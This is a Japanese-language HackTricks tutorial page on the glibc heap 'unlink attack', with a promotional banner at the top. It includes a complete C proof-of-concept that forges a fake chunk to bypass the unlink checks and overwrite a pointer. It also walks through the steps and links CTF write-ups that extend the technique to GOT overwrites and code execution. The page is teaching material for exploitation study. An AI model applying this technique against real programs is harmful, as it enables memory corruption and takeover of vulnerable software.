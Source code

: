 # Unlink Attack

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [Discordグループに参加](https://discord.gg/hRep4RUj7f)**または[telegramグループに参加](https://t.me/peass)し、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## 基本情報

この攻撃が発見された当初、主にWWW（Write What Where）を許可していましたが、いくつかの**チェックが追加**され、攻撃の新バージョンはより興味深く、より複雑で**無意味**になりました。

### コード例:

<details>

<summary>コード</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* 攻撃は、tcaches が使用されている場合には機能しません（2.26 以降）

### ゴール

この攻撃により、**チャンクへのポインタを自身の 3 アドレス前を指すように変更**することが可能です。この新しい場所（ポインタが配置されていた周辺）に興味深い情報が含まれている場合、他の制御可能な割り当てやスタックなどがある場合、それらを読み取ったり上書きしてより大きな被害を引き起こすことが可能です。

* もしポインタがスタックにあった場合、今は自身の 3 アドレス前を指しているため、ユーザーがそれを読み取り、変更できる可能性があるため、スタックから機密情報を漏洩させるか、リターンアドレスを変更することが可能になります（おそらくキャナリを触ることなく）
* CTF の例では、このポインタが他の割り当てへのポインタの配列にあるため、3 アドレス前を指すようにし、他のポインタを他のアドレスを指すようにすることが可能です。\
ユーザーが他の割り当ても読み書きできる可能性があるため、情報を漏洩したり、任意の場所（GOT など）に新しいアドレスを上書きすることができます。

### 必要条件

* メモリ内（例：スタック）でコントロールを持って、いくつかの属性に値を与えるためにチャンクを作成する。
* ポインタの偽のチャンクを設定するためのスタックリーク。

### 攻撃

* いくつかのチャンクがある（chunk1 と chunk2）
* 攻撃者は chunk1 の内容と chunk2 のヘッダーをコントロールしている。
* chunk1 では、攻撃者は偽のチャンクの構造を作成する：
* 保護をバイパスするために、`size` フィールドが正しいことを確認して、`corrupted size vs. prev_size while consolidating` エラーを回避する
* そして偽のチャンクの `fd` と `bk` フィールドが、chunk1 のポインタが格納されている場所を指すようにする。それぞれ -3 と -2 のオフセットを持たせることで、`fake_chunk->fd->bk` と `fake_chunk->bk->fd` がメモリ内（スタック）の位置を指すようにする：

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* chunk2 のヘッダーは変更され、前のチャンクが使用されていないことと、偽のチャンクが含まれるサイズであることが示される。
* 2 番目のチャンクが解放されると、この偽のチャンクがリンク解除される：
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* 以前は、`fake_chunk->fd->bk` と `fake_chunk->fd->bk` が同じ場所を指すようにされていた（`chunk1` が格納されていたスタックの場所、つまり有効なリンクリストであった）。**両方が同じ場所を指している**ため、最後のものだけが（`fake_chunk->bk->fd = fake_chunk->fd`）**効果を持つ**。
* これにより、スタック内の chunk1 へのポインタがスタック内の 3 アドレス前に格納されているアドレス（またはバイト）に上書きされます。
* したがって、攻撃者が再び chunk1 の内容を制御できる場合、スタック内に書き込むことが可能になり、おそらくキャナリをスキップしてリターンアドレスを上書きし、ローカル変数の値とポインタを変更することができます。再びスタックに格納されている chunk1 のアドレスを異なる場所に変更することで、攻撃者が再び chunk1 の内容を制御できる場合、どこにでも書き込むことが可能になります。
* この攻撃が可能だったのは、**アドレスがスタックに格納されていた**ためです。リスクと悪用は、**偽のチャンクのアドレスがどこに格納されているか**に依存する可能性があります。

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## 参考文献

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* CTF で unlink 攻撃を見つけるのは奇妙かもしれませんが、この攻撃が使用されたライトアップ例があるので、以下に示します：
* CTF の例：[https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* この例では、スタックの代わりに malloc されたアドレスの配列があります。unlink 攻撃は、ここにチャンクを割り当てることができるように行われ、その後、これらのアドレスのチャンクの内容を変更する機能があります。これにより、アドレスを GOT にポイントし、関数アドレスを変更してリークや RCE を取得することが可能になります。
* 別の CTF の例：[https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* 前の例と同様に、割り当てのアドレスの配列があります。unlink 攻撃を実行して、最初の割り当てへのアドレスを配列の先頭よりも前のいくつかの位置を指すようにすることが可能です。そして、この割り当てを新しい位置に上書きすることができます。そのため、他の割り当てのポインタを GOT の atoi にポイントするように上書きし、libc リークを取得し、そして atoi の GOT を one gadget のアドレスに上書きすることが可能です。
* unlink 攻撃に非常に似た脆弱性を悪用するカスタム malloc と free 関数を持つ CTF の例：[https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* カスタム malloc の FD と BK ポインタを制御できるオーバーフローがあり、それらが（カスタム）解放されます。さらに、ヒープに exec ビットがあるため、ヒープアドレスを漏洩させ、GOT からヒープチャンクに関数をポイントしてシェルコードを実行することが可能です。
